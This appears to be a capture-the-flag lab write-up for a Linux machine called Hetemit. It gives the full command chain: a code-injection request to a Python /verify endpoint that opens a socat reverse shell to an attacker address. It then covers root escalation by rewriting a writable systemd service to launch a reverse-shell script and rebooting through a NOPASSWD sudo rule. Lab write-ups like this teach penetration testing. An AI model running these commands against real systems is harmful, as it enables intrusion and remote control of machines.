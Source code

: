 # 🧬 Hetemit (Linux)
Nmap scan revealed ports 21, 22, 80, 139, 445, 18000, 50000. Port 18000 hosted a Protomba web app that requires an invite code to register, port 50000 exposes a Python API with /generate and /verify endpoints. Used /generate to create an invite code, registered on the site, but the real vulnerability was in /verify: it evaluates input as Python code. Abused it for RCE: curl -X POST --data "code=os" http://192.168.120.36:50000/verify and then got a shell with socat: nc -lvnp 18000 and curl -X POST --data "code=os.system('socat TCP:192.168.118.8:18000 EXEC:sh')" http://192.168.120.36:50000/verify. Got a shell as cmeeks. Checked for writable files: find /etc -type f -writable 2>/dev/null found /etc/systemd/system/pythonapp.service. sudo -l showed NOPASSWD for reboot. Rewrote pythonapp.service to run a root reverse shell: cat <<'EOT'> /etc/systemd/system/pythonapp.service [Unit] Description=Python App After=network-online.target [Service] Type=simple ExecStart=/home/cmeeks/reverse.sh TimeoutSec=30 RestartSec=15s User=root ExecReload=/bin/kill -USR1 $MAINPID Restart=on-failure [Install] WantedBy=multi-user.target EOT. Created the reverse shell script: cat <<'EOT'> /home/cmeeks/reverse.sh #!/bin/bash socat TCP:192.168.118.8:18000 EXEC:sh EOT && chmod +x /home/cmeeks/reverse.sh. Started a listener: nc -lvnp 18000. Rebooted the box with sudo reboot. After reboot, caught a root shell when the malicious service started. Security tip: Never leave writable systemd services or NOPASSWD sudo rights for reboot on production servers.
